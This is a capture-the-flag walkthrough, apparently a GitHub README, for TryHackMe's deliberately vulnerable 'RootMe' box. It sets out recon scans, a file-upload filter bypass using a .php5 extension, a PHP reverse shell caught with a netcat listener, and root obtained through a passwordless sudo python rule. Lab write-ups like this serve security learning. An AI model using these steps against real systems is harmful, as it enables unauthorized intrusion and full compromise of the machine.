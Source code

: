 # RootMe
A guide to the thm box rootme

## 🔓 RootMe — TryHackMe Walkthrough (Beginner-Friendly)

RootMe is one of the most popular beginner-friendly boxes on TryHackMe. It’s perfect if you're just getting into web exploitation and privilege escalation on Linux. Here's how I tackled it step-by-step.

---

### 🛍️ Step 1: Reconnaissance

I kicked things off with a basic Nmap scan:

```bash
nmap -sV -sC -Pn <target-IP>
```

**Open ports:**
- `22/tcp` — SSH
- `80/tcp` — HTTP

Visiting the site on port 80 showed a basic static webpage — nothing interactive or useful at first glance.

To dig deeper, I ran a **directory brute-force scan**:

```bash
gobuster dir -u http://<target-IP> -w /usr/share/wordlists/dirb/common.txt
```

**Interesting findings:**
- `/panel.php`
- `/uploads/`

---

### 🛠️ Step 2: File Upload Exploit

Accessing `/panel.php` showed a **file upload form**. My first instinct was to upload a PHP reverse shell.

Tried uploading `shell.php` → Blocked.  
Tried `shell.jpg.php` → Still blocked.

Then I remembered a common bypass: using alternative extensions.

📌 **Trick:** Uploaded `shell.php5` — and it worked!

---

### 📲 Step 3: Getting a Reverse Shell

I grabbed a basic PHP reverse shell from [Pentestmonkey](http://pentestmonkey.net/tools/php-reverse-shell), set my IP and port, then uploaded it as `shell.php5`.

Set up a Netcat listener:

```bash
nc -lvnp 4444
```

Then visited:  
`http://<target-IP>/uploads/shell.php5`

Boom — got a shell as `www-data`.

---

### 🚀 Step 4: Privilege Escalation

From the limited shell, I started checking basic privilege escalation paths.

```bash
sudo -l
```

And there it was — a sweet finding:

```bash
(ALL) NOPASSWD: /usr/bin/python
```

So I ran:

```bash
sudo python -c 'import pty; import os; os.system("/bin/bash")'
```

And just like that, I had **root access**.

---

### 🏁 Step 5: Grab the Flags

```bash
cat /home/user/user.txt
cat /root/root.txt
```

Flags captured ✅  
Box rooted ✅

---

### 💭 Final Thoughts

RootMe is a great intro box that teaches:
- File upload vulnerabilities
- PHP reverse shells
- Simple sudo-based privilege escalation

If you're new to CTFs or just getting started with web exploits, definitely give this one a go.

---

If you found this useful or have any questions, feel free to drop a comment or connect. Happy hacking! 💻🔐

